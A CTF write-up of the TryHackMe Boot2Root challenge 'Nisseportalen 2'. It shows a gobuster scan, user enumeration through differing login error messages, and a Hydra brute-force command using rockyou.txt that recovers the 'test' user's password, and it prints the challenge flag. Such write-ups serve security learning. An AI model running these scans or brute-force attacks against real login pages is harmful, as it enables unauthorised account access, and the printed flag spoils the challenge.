


+++
title = 'Nisseportalen 2'
categories = ['Boot2Root']
date = 2024-12-15T13:34:38+01:00
scrollToTop = true
+++

## Challenge Name:

Nisseportalen 2

## Category:

Boot2Root

## Challenge Description:

Nissernes største ønske er en portal til deling af alle deres AI-genererede billeder aka Nisseportalen. Projektet er dog i fare efter Nissedevs utallige fiaskoer med både Dangerzone og Nissezonen.

Praktikantnissen har fået til opgave at redde Nisseportalen og få ryddet op i Nissedevs rod. Kan du hjælpe med at redde Nisseportalen og finde alle de sårbarheder, der må være, så projektet endelig kan blive gjort færdigt?

Men vær beredt, det er ikke til at sige hvad Nissedev har haft gang i...

[https://tryhackme.com/jr/nisseportalen2o24](https://tryhackme.com/jr/nisseportalen2o24)

## Approach

We pick up where we left off in [Nisseportalen 1](/nc3/boot2root/nisseportalen-1) and continue to enumerate the webapp, scanning for subdirectories under /portal!

### Enumeration

We fire off a [gobuster](https://tools.kali.org/web-applications/gobuster) scan to see if we can find any hidden directories under the newly discovered /portal directory!

```bash
gobuster dir -u http://nisseportalen.nc3/portal -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,bak,old

/index.html           (Status: 200) [Size: 150]
/index.php            (Status: 200) [Size: 777]
/.html                (Status: 403) [Size: 283]
/.php                 (Status: 403) [Size: 283]
/login.php            (Status: 200) [Size: 1764]
/uploads              (Status: 301) [Size: 333] [--> http://nisseportalen.nc3/portal/uploads/]
/list.php             (Status: 200) [Size: 500]
/admin.php            (Status: 200) [Size: 1478]
/upload.php           (Status: 200) [Size: 1055]
/filter.php           (Status: 200) [Size: 0]
/billeder.txt         (Status: 200) [Size: 66]
/.php                 (Status: 403) [Size: 283]
/.html                (Status: 403) [Size: 283]
```

We find a plethora of interesting files and directories, including /login.php, /uploads, /list.php, /admin.php, /upload.php, /filter.php, and /billeder.txt!

### Exploitation

I spent SO much time, diving through the source code of every single page, noting down the images in the billeder.txt file.
I even discovered that the images can be accessed by changing the URL to /portal/uploads/images/[image_name].jpg, but I couldn't find anything useful in the images themselves (and based on several previous uploads to my favorite quick image analysis tool, [AperiSolve](https://www.aperisolve.com/), I saw that several other contestants also tried this aproach...).

I ended up focusing on the /portal/login.php page, where I found a login form. I tried to log in with the default credentials, without luck.
I attempted to run SQL injection attacks with sqlmap, again without any luck.

Mostly based on luck, I noticed that the user "test" yielded a different error message than the user "admin" when trying to log in!





### Getting foothold on the webapp

This abosolutely caught my interest and led me fire off a Hydra attack against the login form, using the user "test" and the rockyou.txt wordlist!

```bash
hydra -l test -P /usr/share/wordlists/rockyou.txt -f nisseportalen.nc3 http-post-form "/portal/login.php:Username=^USER^&Password=^PASS^:Forkert kodeord"
```

After just short of 10 minutes of running the Hydra attack, I found the password for the user "test"!

```bash
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://nisseportalen.nc3:80/portal/login.php:Username=^USER^&Password=^PASS^:Forkert kodeord
[STATUS] 4564.00 tries/min, 4564 tries in 00:01h, 14339834 to do in 52:22h, 16 active
[STATUS] 4661.00 tries/min, 13983 tries in 00:03h, 14330415 to do in 51:15h, 16 active
[STATUS] 4685.57 tries/min, 32799 tries in 00:07h, 14311599 to do in 50:55h, 16 active
[80][http-post-form] host: nisseportalen.nc3   login: test   password: tester
[STATUS] attack finished for nisseportalen.nc3 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

### Getting second flag

Shortly after logging into portal, I was immediately greeted with the second flag, which was we can submit and move on to [Nisseportalen3](/nc3/boot2root/nisseportalen-3)!


## Flag

```text
NC3{Flag2:9aMl3_kod3R_ru573r_AlDrI9}
```

## Reflections and Learnings

### Persistence Pays Off

Just keep trying! With this part of the challenge, SO SO many hours went into investigating the different "dead-ends" I encountered. But, as always, persistence pays off!

### Importance of Error Messages

The differing error messages provided a critical clue that helped narrow down the attack path. This reinforces the importance of examining even minor inconsistencies during enumeration and testing phases.
This displayed a very typical example of information leakage, where the application provides different responses based on the input provided. This can be a goldmine for attackers, as it can reveal valuable information about the application's inner workings.

### Wordlists are Valuable, at least for CTFs!

Utilizing the rockyou.txt wordlist with Hydra is a "go-to" in CTFs!
In the real world, rockyou will sometimes be very useful, but often much more computationally demanding!
My rule of thumb is to always give rockyou 1 hour of runtime, and if I haven't found the password by then, I'll move on to test out other paths!

### Automation is key

The power of Hydra to automate credential brute-forcing saved significant time and effort. It’s a reminder to leverage automation tools effectively in CTF challenges to focus manual efforts where they’re most impactful.
